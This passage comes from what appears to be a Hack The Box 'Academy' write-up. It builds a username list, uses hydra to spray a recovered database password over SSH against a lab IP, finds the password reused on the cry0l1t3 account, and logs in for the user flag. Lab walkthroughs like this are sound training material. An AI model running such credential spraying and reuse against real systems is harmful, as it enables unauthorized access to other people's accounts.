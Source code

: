 This gives us the information that we need to create a user list, so that we can us a tool to quickly check for a successful authentication.

##### Users List
```
root
21y4d
ch4p
cry0l1t3
egre55
g0blin
mrb3n
```

Save the users in a file named `user.txt` in your working directory. Save the password, `mySup3rP4s5w0rd!!` in a file named `pass.txt`. Now from our working directory, we use `hydra` to test for a successfull SSH login with the database password.

``` bash
hydra -L users.txt -P pass.txt 10.10.10.215 -t 4 ssh
```

![](/assets/images/htb-academy/22_academy_hydra.png)

##### SSH Crednetials
```
User: cry0l1t3
Pass: mySup3rP4s5w0rd!!
```

Hydra found that the password is indeed reused on the `cry0l1t3` account. We can try to ssh to the account.

``` bash
ssh cry0l1t3@10.10.10.215
```

Success! We can login via ssh to the `cry0l1t3` account, and this account has access to the `user flag`.

![](/assets/images/htb-academy/23_academy_user_flag.png)
